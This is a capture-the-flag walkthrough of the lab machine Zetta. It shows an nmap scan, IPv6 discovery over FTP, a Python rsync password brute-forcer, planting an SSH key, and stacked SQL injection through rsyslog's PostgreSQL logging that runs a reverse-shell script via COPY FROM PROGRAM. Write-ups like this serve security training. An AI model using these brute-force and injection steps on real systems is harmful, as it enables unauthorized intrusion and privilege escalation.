









# Steps

### NMAP
```
# Nmap 7.80 scan initiated Fri Oct 18 16:30:32 2019 as: nmap -sV -sC -oN inital -v zetta.htb
Nmap scan report for zetta.htb (10.10.10.156)
Host is up (0.13s latency).
Not shown: 997 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
22/tcp open   ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 2d:82:60:c1:8c:8d:39:d2:fc:8b:99:5c:a2:47:f0:b0 (RSA)
|   256 1f:1b:0e:9a:91:b1:10:5f:75:20:9b:a0:8e:fd:e4:c1 (ECDSA)
|_  256 b5:0c:a1:2c:1c:71:dd:88:a4:28:e0:89:c9:a3:a0:ab (ED25519)
80/tcp open   http    nginx
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Ze::a Share
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 18 16:30:52 2019 -- 1 IP address (1 host up) scanned in 20.51 seconds
```

Enumerating the website we found the credentials and RFC standard supported by ftp





RFC 2428 standard supports IPv6 over ftp

Obtaining IPv6 address using EPRT command over ftp



### Enumerating IPv6 address

#### NMAP
```
# Nmap 7.80 scan initiated Tue Oct 22 22:02:27 2019 as: nmap -p- -oN allports -v --max-retries 1 -6 dead:beef::250:56ff:feb9:8b0f
Increasing send delay for dead:beef::250:56ff:feb9:8b0f from 0 to 5 due to 36 out of 118 dropped probes since last increase.
Warning: dead:beef::250:56ff:feb9:8b0f giving up on port because retransmission cap hit (1).
Nmap scan report for dead:beef::250:56ff:feb9:8b0f
Host is up (0.13s latency).
Not shown: 64670 closed ports, 861 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
8730/tcp open  unknown

Read data files from: /usr/bin/../share/nmap
# Nmap done at Tue Oct 22 22:21:51 2019 -- 1 IP address (1 host up) scanned in 1163.85 seconds
```

#### Enumerating `rsync` service on port 8730

Listing rsync modules
```
➜ rsync "[dead:beef::250:56ff:feb9:97]::" -6 --port 8730  
****** UNAUTHORIZED ACCESS TO THIS RSYNC SERVER IS PROHIBITED ******

You must have explicit, authorized permission to access this rsync
server. Unauthorized attempts and actions to access or use this 
system may result in civil and/or criminal penalties. 

All activities performed on this device are logged and monitored.

****** UNAUTHORIZED ACCESS TO THIS RSYNC SERVER IS PROHIBITED ******

@ZE::A staff

This rsync server is solely for access to the zetta master server.
The modules you see are either provided for "Backup access" or for
"Cloud sync".


bin            	Backup access to /bin
boot           	Backup access to /boot
lib            	Backup access to /lib
lib64          	Backup access to /lib64
opt            	Backup access to /opt
sbin           	Backup access to /sbin
srv            	Backup access to /srv
usr            	Backup access to /usr
var            	Backup access to /var
```

Trying to list modules I found out we can list contents of `etc` module. Grabbing `rsyncd.conf`
```sh
➜ rsync "[dead:beef::250:56ff:feb9:97]::etc/rsyncd.conf" -6 --port 8730 .
```

I found another module named `home_roy` and user `roy`

Bruteforcing `rsync` credentials for user `roy` using python script we found the password "computer"
```python
#!/usr/bin/env python3
import sys
import subprocess
from subprocess import PIPE
wordlist = sys.argv[1]
target_username = 'roy'
target_address = 'dead:beef::250:56ff:feb9:a877'
target_port = 8730
target_module = 'home_roy'
target_command = "rsync://{}@[{}]:{}/{}".format(target_username, target_address, target_port,
target_module)
f = open(wordlist, 'r', errors='ignore')
words = f.readlines()
for password in words:
  password = password.rstrip()
  pass_file = open("pass", "w+")
  pass_file.write(password)
  pass_file.close()
  p = subprocess.run(['rsync', '-av', '--password-file=pass', '--list-only', target_command],stdout=PIPE, stderr=PIPE)
  rsync_error = p.stderr.decode('utf-8')
  rsync_output = p.stdout.decode('utf-8')
  if rsync_error.find("auth failed") > 0:
    print("Password: {} failed".format(password))
  else:
    print("Check password: {}".format(password))
  break
```

Now that I have write access to `roy's` home directory I transfered my public key to user's home directory

```
rsync authorized_keys  "roy@[dead:beef::250:56ff:feb9:8254]::home_roy/.ssh/" -6 --port 8730
```

Logging in as user roy using my private key



Enumerating file system and services I found that `rsyslog` service is running with `postgresql`. SQL Injection Vulnerability present in rsyslogd.
https://www.rsyslog.com/article35/

Since it was not possible for me to verify if I can trigger sql injection or not. I decided to replicate the envoinment on my machine to craft a payload.

### Setting up local envoirnment

#### Required packages
```
$ sudo apt install rsyslog-pgsql
```
#### Setting up configuration
Grab the configuration file `/etc/rsyslog.conf` and copy it to same location.

PostgreSQL configuration can be found by looking up git commit history. Copy the configuration to file `/etc/rsyslog.d/pgsql.conf`
```
$ cd /etc/rsyslog.d/.git
$ git show
```


Set the postgresql user password according to the configuration files.

#### Creating table in postgresql
```
$ psql -U postgresql

syslog=# CREATE DATABASE syslog;
syslog=# \c syslog;
syslog=# CREATE TABLE syslog_lines(message varchar(40),devicereportedtime varchar(20));
```

#### SQL Injection
From `pgsql.conf` I understand that rsyslog is configured to log only `local7.info` logs.
I used `logger` command to end message into system log with `-p` arguement to specify the priority



On victim machine postgresql log file constantly truncated so I used `tail -F` to track file changes.



Since single-quotes are escaped I used `double-dollar` supported by postgresql to replace single quotes anywhere.

#### Crafting payload
Refrencing the query in `pgsql.conf` we can craft a payload as stacked queries.
```
\',$$test$$);CREATE TABLE test();--
```

#### Using sql injection to get reverse shell.
[Authenticated Arbitrary Command Execution on PostgreSQL](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)



Create a file `/tmp/shell.sh` with reverse shell script contents
```
$logger -isp local7.info
  \',$$10 10 10$$);DROP TABLE IF EXISTS cmd_exec;--
  \',$$10 10 10$$);CREATE TABLE cmd_exec();--
  \',$$10 10 10$$);COPY cmd_exec FROM PROGRAM $$bash /tmp/shell.sh$$;--
```
I found some intresting files in `/var/lib/postgresql`.
```
postgres@zetta:/var/lib/postgresql$  -la
ls -la
total 20
drwxr-xr-x  4 postgres postgres 4096 Jul 27 06:57 .
drwxr-xr-x 27 root     root     4096 Aug 27 05:39 ..
drwxr-xr-x  3 postgres postgres 4096 Jul 27 03:07 11
lrwxrwxrwx  1 root     root        9 Jul 27 06:57 .bash_history -> /dev/null
-rw-------  1 postgres postgres  744 Jul 27 07:01 .psql_history
drwx------  2 postgres postgres 4096 Nov  8 14:45 .ssh
postgres@zetta:/var/lib/postgresql$ cat .psql_history
cat .psql_history
CREATE DATABASE syslog;
\c syslog
CREATE TABLE syslog_lines ( ID serial not null primary key, CustomerID bigint, ReceivedAt timestamp without time zone NULL, DeviceReportedTime timestamp without time zone NULL, Facility smallint NULL, Priority s
mallint NULL, FromHost varchar(60) NULL, Message text, NTSeverity int NULL, Importance int NULL, EventSource varchar(60), EventUser varchar(60) NULL, EventCategory int NULL, EventID int NULL, EventBinaryData tex
t NULL, MaxAvailable int NULL, CurrUsage int NULL, MinUsage int NULL, MaxUsage int NULL, InfoUnitID int NULL , SysLogTag varchar(60), EventLogType varchar(60), GenericFileName VarChar(60), SystemID int NULL);
\d syslog_lines
ALTER USER postgres WITH PASSWORD 'sup3rs3cur3p4ass@postgres';
postgres@zetta:/var/lib/postgresql$
```

I tried `sup3rs3cur3p4ass@root` as password for root and got access

